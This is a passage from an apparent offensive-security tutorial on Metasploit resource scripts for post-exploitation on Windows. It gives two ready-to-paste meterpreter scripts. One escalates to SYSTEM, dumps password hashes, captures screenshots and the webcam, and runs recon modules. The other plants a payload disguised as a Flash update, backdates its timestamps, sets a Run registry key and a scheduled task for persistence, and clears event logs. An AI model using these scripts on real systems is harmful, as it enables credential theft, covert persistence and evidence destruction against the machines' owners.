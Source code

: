 ![gif](http://i68.tinypic.com/343oefb.gif)

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />

## RESOURCE SCRIPTS IN POST EXPLOITATION
<blockquote>Auto-run scripts are great when you need multiple modules to run automatically. Lets assume the first thing(s) we do after a successfully exploitation its to elevate the current session to NT authority/system, take a screenshot of current desktop, migrate to another process and run post exploitation modules. Having all this commands inside a rc script saves us time.</blockquote>

Open your text editor and copy/past the follow metasploit commands to it, save file and name it as: **post.rc**
```
   getprivs
   getsystem
   hashdump
   screenshot
   webcan_snap -v false
   migrate -n wininit.exe
     use post/windows/gather/enum_applications
   run
     use post/multi/recon/local_exploit_suggester
   run
```
**[in meterpreter]::Run the script::** `resource /root/post.rc`

<br /><br />

<blockquote>Auto-run scripts are great when you need to persiste fast your payload automatically. This next example demonstrates how to use resource scripts to successfully persiste a payload in target system and clean tracks (timestomp & clearev). Remmenber that you must have the update.exe in your working directory (local) to be uploaded to target system.</blockquote>

Open your text editor and copy/past the follow metasploit commands to it, save file and name it as: **persistence.rc**
```
 getprivs
 getsystem
 migrate -n explorer.exe
  upload /root/update.exe %temp%\\update.exe
  timestomp -z '3/10/1999 15:15:15' %temp%\\update.exe
  reg setval -k HKLM\\Software\\Microsoft\\Windows\\Currentversion\\Run -v flash-update -d %temp%\\update.exe
  scheduleme -m 10 -c "%temp%\\update.exe"
 clearev
```
**[in meterpreter]::Run the script::** `resource /root/persistence.rc`
